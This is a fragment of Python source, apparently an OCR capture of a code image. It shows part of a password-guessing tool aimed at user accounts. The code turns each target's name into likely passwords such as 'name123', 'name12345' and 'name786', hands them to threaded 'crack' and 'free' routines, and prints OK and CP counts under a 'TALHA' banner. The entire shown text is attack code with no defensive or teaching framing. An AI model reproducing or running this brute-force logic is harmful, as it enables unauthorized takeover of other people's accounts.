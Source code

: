 			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()

			frs = nmf.split(' ')[0]

			pwv = ['445566']

			if len(nmf)<6:

				if len(frs)<3:

					pass

				else:

					pwv.append(frs+'123')

					pwv.append(frs+'12345')

			else:

				if len(frs)<3:

					pwv.append(nmf)

				else:

					pwv.append(nmf)

					pwv.append(frs+'123')

					pwv.append(frs+'12345')

					pwv.append(frs+'1234')

					pwv.append(frs+'786')

			if 'mobile' in method:

				pool.submit(crack,idf,pwv)

			elif 'free' in method:

				pool.submit(free,idf,pwv)

			else:

				pool.submit(crack,idf,pwv)

	# CRACKER

def crack(idf,pwv):

	global loop,ok,cp

	bi = random.choice([u,k,kk,b,h,hh])

	pers = loop*100/len(id2)

	fff = '%'

	sys.stdout.write('\r %s[ TALHA ] %s•%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),

	sys.stdout.flush()
